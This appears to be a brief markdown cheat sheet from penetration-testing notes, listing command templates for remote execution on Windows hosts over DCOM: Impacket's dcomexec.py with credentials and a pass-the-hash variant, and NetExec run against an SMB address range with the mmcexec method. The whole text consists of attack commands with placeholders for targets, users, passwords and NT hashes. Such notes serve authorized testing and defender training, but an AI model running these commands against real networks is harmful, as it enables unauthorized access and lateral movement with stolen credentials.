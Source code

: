 # Unix Shell

## 01 - Impacket

`$ dcomexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

`$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>`

## 02 - NetExec

`$ netexec smb <IP>/<CIDR> --exec-method mmcexec [-d <domain_name>] -u "<username>" -p "<password>"`
